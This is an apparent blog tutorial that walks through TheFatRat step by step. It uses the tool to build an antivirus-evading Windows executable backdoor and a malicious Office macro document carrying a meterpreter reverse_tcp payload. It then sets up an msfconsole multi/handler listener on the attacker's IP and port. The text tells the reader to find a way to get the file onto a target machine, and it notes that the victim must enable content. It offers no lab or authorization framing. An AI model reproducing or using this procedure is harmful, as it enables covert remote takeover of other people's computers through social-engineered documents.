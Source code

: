 ```yaml
---
title: "TheFatRat"
date: "2020-04-06"
slug: "the-fat-rat"
category: "Security Tools"
---
```


TheFatRat is a tool to create backdoors and payloads that can bypass anti-virus programs. For more information on this please see the <a href="https://github.com/Screetsec/TheFatRat" target="_blank" rel="noopener noreferrer">GitHub repository</a>.

To use TheFatRat you'll have to grab it from that github repository. The installation instructions are there too. If you don't have all the packages or yours aren't up to date TheFatRat will install and update them for you, this may take a little bit of time. 

Once you've got it installed, depending how you installed it, you should be able to run TheFatRat by typing `fatrat` into the command line. 

Once that's loaded you'll be presented with a menu of options. For this tutorial we'll be creating a fud backdoor 1000% with PwnWinds (AKA option 6). 

Another menu will appear, we'll choose to create an exe file with apache + Powershell (FUD 100%) (AKA option 3). 

You'll be prompted to the LHOST value, and the LPORT. Enter the listener's (attacker) IP and port it will listen on.

You'll be asked to enter the base name for output files.

Now you will be asked to generate a payload. I'm choosing windows/meterpreter/reverse_tcp. When you've selected an option the payload will be generated, if you're using the default options it will be placed in a directory called Fatrat_Generated under your home directory.

We're now going to create a backdoor for Office with Microsploit (option 7). This will take the form of an Office Macro on Windows (option 2 in the next menu). 

You'll then get options for the listener IP, port, output filename. You can also enter a message for the document's body. 

Finally you'll be asked if  you want to use a custom exe file backdoor. This is where we'll use the payload we made earlier. Enter the directory it was save in.

You'll have the option to choose a payload. Choose windows/meterpreter/reverse_tcp. You'll be presented with the backdoor's details. Your payload has now been generated and will be stored in the same place as the other payload.

We'll now want to launch msfconsole and set up our listener.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <attackerPort>
run
```

You'll have to find a way to get the malicious file onto the target machine. Once it's there and has been run you will have a meterpreter session set up. **N.B.** The user will have to enable the content for our payload to run.

Doing a simple `sysinfo` will confirm if this has worked.